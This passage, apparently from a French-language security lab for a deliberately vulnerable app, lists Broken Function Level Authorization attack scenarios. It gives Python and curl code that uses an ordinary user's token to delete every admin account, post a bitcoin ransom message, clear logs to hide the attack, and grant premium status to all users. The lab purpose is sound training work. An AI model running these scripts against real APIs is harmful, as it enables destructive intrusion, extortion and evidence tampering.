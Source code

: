 ### Scénario 2 : Suppression d'utilisateurs concurrents
```python
import requests

def delete_all_admins(base_url, user_token):
    # Récupérer la liste des utilisateurs
    headers = {"Authorization": f"Bearer {user_token}"}
    response = requests.get(f"{base_url}/api/bfla/admin/export-users", headers=headers)
    
    # Parser le CSV pour trouver les admins
    users = response.text.split('\n')[1:]  # Skip header
    for user in users:
        parts = user.split(',')
        if len(parts) >= 3 and parts[2] == 'Admin':
            user_id = parts[0]
            # Supprimer chaque admin
            requests.delete(f"{base_url}/api/bfla/admin/delete-user/{user_id}", headers=headers)
            print(f"Admin {user_id} supprimé")
```

### Scénario 3 : Mise en mode maintenance
```bash
# Mettre l'application en maintenance
curl -X POST http://localhost:5000/api/bfla/admin/set-config \
    -H "Authorization: Bearer [USER_TOKEN]" \
    -H "Content-Type: application/json" \
    -d '{
        "maintenanceMode": true,
        "motd": "System compromised - send bitcoin to..."
    }'
```

### Scénario 4 : Effacement des preuves
```bash
# Supprimer les logs après une attaque
curl -X DELETE http://localhost:5000/api/bfla/admin/clear-logs \
    -H "Authorization: Bearer [USER_TOKEN]"
```

### Scénario 5 : Attribution massive de comptes premium
```python
def make_everyone_premium(base_url, token):
    headers = {"Authorization": f"Bearer {token}"}
    
    # Récupérer tous les utilisateurs
    users = requests.get(f"{base_url}/api/users", headers=headers).json()
    
    # Rendre tout le monde premium
    for user in users:
        requests.post(
            f"{base_url}/api/bfla/admin/set-premium/{user['id']}", 
            headers=headers,
            json=True
        )
```

